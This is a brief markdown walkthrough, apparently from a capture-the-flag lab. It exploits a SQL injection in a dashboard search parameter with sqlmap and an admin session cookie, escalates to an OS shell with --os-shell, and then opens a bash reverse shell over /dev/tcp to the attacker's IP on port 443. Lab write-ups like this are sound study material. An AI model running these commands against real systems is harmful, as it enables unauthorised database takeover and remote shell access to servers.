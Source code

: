 # SQL Injection
```ad-info
SQLmap is an open-source tool used in penetration testing to detect and exploit SQL injection flaws. SQLmap automates the process of detecting and exploiting SQL injection. SQL Injection attacks can take control of databases that utilize SQL.
```

In the website there is a search bar that we can explote with SQL injection.
We can use sqlmap but before executing any command, we will need to grab the cookie to authenticat admin user. 
[//]: Install cooki-editor extension

```bash
$ sqlmap -u http://10.129.95.174/dashboard.php?search=hello --cookie="PHPSESSID=rp7ki2fucgrc0brl7f1l9j5p9e"
```

[//]: Press enter for the Default answer 

The tool confirmed that the target is vulnerable to SQL injection.
`GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)?  [y/N]`

```bash
$ sqlmap -u http://10.129.95.174/dashboard.php?search=hello --cookie="PHPSESSID=rp7ki2fucgrc0brl7f1l9j5p9e" --os-shell
```

To make the shell more stable and interactive, we will setup a netcat listener on port 443 and use the following command:

```SQL
os-shell> bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
```

